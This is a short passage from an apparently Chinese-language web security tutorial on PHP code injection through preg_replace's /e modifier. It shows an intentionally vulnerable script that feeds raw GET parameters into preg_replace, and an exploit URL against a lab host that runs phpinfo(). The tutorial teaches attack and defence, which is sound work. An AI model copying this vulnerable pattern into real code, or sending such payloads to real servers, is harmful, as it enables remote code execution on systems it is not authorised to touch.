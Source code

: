[![](assets/1704850598-1c24b6da81e7d468e6b0a1ebaa1cf637.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/zO5OvNJDESkkkXbq.png)

### 2.1.7 Code injection Example 3

preg\_replace(pattern,replacement,subject)：搜索 subject 中匹配 pattern 的部分，以 replacement 进行替换；当 pattern 是/e 将会以 PHP 执行 replacement 中的代码。

```bash
<?php
   echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
?>
```

[http://192.168.245.131/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer](http://192.168.245.131/codeexec/example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello%20lamer)  